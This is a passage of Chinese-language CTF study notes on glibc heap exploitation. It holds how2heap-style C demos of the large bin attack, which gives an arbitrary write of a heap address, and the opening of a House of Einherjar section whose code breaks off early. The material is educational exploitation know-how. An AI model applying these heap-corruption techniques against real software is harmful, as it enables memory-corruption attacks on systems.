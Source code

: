 ```c
	free(p1);
	free(p2); //都进unsorted bin，遵循先进先出
	void* p4 = malloc(0x90); //切割p1 0x90空间作为malloc返回的内存，剩下的继续在unsorted bin。p2则根据大小进入large bin
	free(p3); //p3进unsorted bin
	p2[-1] = 0x3f1; //size
	p2[0] = 0; //fd
	p2[1] = (unsigned long)(&stack_var1 - 2); //bk
	p2[2] = 0; //fd_nextsize
	p2[3] = (unsigned long)(&stack_var2 - 4); //bk_nextsize
	malloc(0x90); //修改stack_var1和stack_var2的值为p3的地址
	return 0;
}
```
效果：在任意地址处写入一个堆地址
```c
//https://github.com/shellphish/how2heap/blob/master/glibc_2.36/large_bin_attack.c
//适用版本：>= glibc 2.30
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>
int main(){
  size_t target = 0;
  size_t *p1 = malloc(0x428);
  size_t *g1 = malloc(0x18); //防止与下面的chunk合并
  size_t *p2 = malloc(0x418);
  size_t *g2 = malloc(0x18);
  free(p1); //进unsorted bin
  size_t *g3 = malloc(0x438); //大小大于p1，p1不会被分割，直接进large bin
  free(p2); //unsorted bin
  p1[3] = (size_t)((&target)-4); //修改p1->bk_nextsize为target-0x20。这里(&target)-4)是因为target是size_t，8字节，它的地址-4就是4*8=0x20
  size_t *g4 = malloc(0x438); //分配一个大于p2的chunk。target现在为p2 chunk的地址
  return 0;
}
```

## [House Of Einherjar](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-einherjar/)

效果：使malloc返回一个几乎任意地址的chunk。前提：
- 需要有溢出漏洞可以写物理相邻的高地址的 prev_size 与 PREV_INUSE 部分（off by one是可能的，特殊大小的堆块会复用下一个堆块的prev_size作为data，同时off by one修改PREV_INUSE）。
- 需要计算目的 chunk 与 p1 地址之间的差，所以需要泄漏地址。
- 需要在目的 chunk 附近构造相应的 fake chunk，从而绕过 unlink 的检测

与chunk extend/shrink比较类似，后者也是off by one/null常使用的技巧
```c
//https://github.com/shellphish/how2heap/blob/master/glibc_2.27/house_of_einherjar.c
//<= glibc 2.27
/* 总结：
1. 目标地址构造fake chunk
2. 两个物理相邻的chunk a和b，a有off by null漏洞，可溢出到b的size。同时因为a的大小特殊，b的prev_size是a user data的一部分
3. 计算prev_size大小，用于free b时的向后合并拿到目标地址
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>
#include <assert.h>
int main()
{
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
```
